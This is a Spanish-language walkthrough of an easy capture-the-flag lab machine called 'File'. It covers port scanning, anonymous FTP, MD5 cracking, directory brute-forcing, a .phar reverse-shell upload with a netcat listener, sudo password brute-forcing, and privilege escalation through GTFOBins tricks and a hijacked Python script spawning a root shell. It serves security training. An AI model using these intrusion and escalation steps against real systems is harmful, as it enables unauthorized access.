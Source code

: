 ```yaml
---
description: >-
  ✍️ Autor: Scuffito y Jul3n-dot🔍 Dificultad: Fácil 📅 Fecha de creación:
  29/11/2024
---
```


# File

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos que tenemos un archivo y que tenemos acceso de manera anónima con FTP lo aprovechamos por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y parece ser una cadena correspondiente a un hash por lo que la decodificamos.

```bash
echo "53dd9c6005f3cdfc5a69c5c07388016d" > hash
john --format=raw-md5 hash
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si ingresamos la IP nos sale la página por defecto de Apache.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Hay un archivo y un directorio que nos da pistas que se puede hacer una Reverse Shell. Hay que usar un archivo con extensión `.phar`.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Obtenemos la contraseña de fernando con esta herramienta de nuestro Mario. Nos logueamos.

{% @github-files/github-code-block url="https://github.com/Maalfer/Sudo_BruteForce" %}

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos estaganografía.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al ser un hash lo crackeamos con esta página [CrackStation](https://crackstation.net/).

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es la contraseña de mario por lo que nos logueamos. Tiene permisos SUDO con julen [awk](https://gtfobins.github.io/gtfobins/awk/#sudo).

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Ahora tenemos permisos SUDO con [env ](https://gtfobins.github.io/gtfobins/env/#sudo)con el usario iker.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Ahora tenemos permisos SUDO para ejecutar con python un archivo.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Lo borramos y creamos con el mismo nombre pero con distinto contenido.

```bash
import os
os.system("/bin/bash")
```

Lo ejecutamos.

```bash
sudo /usr/bin/python3 /home/iker/geo_ip.py
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
